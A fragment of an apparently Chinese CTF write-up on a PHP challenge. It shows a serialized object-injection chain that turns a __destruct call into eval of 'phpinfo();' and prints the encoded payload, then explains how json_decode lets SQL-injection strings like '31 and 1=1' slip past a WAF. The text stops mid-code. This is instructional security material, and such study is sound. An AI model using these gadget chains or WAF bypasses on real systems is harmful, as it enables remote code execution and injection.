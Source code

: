 分析一下这道题的知识点:
1. 正则表达式绕过
2. 弱类型比较
3. php ROP

`json_decode()`函数给了绕过正则表达式的信息
MD5弱类型比较， 一定要搞清楚`php`中的数据类型(因为php是弱类型数据)
还有利用php 构造ROP链来搞事情
示例代码如下：
```php
<?php
/**
 * Created by PhpStorm.
 * User: zz
 * Date: 2019/4/21
 * Time: 8:18
 */


class lemon {
    protected $ClassObj;
    function __construct(){
        $this->ClassObj = new evil();
    }

    function __destruct() {
        $this->ClassObj->action();
    }

}
class evil {
    private $data = "phpinfo();";
    function action() {
        eval($this->data);
    }
}
echo urlencode(serialize(new lemon()));

?>
```


## json_decode()参数解析对于绕过waf的影响

最开始看到json_decode()函数的时候还以为是考这个知识点，后来发现错了

`json_decode()`函数也是一个比较神奇的函数， 示例如下：
```php
$id1 = '{"id":"31 and 1=1"}';
var_dump(json_decode($id1));
```
输出结果为：
```
object(stdClass)#1 (1) {
  ["id"]=>
  string(10) "31 and 1=1"
}
```
参考这篇[文章](https://xz.aliyun.com/t/306/)
如果我们在网络中传输的是`json`数据， 由于服务器会对json数据进行一次json解析，导致有些字符可能会漏防。
比如：
```php
<?php
include_once 'global.php';
$id = json_decode($_GET['id'])->id;
for($i = 0; $i < strlen($id); $i ++)
```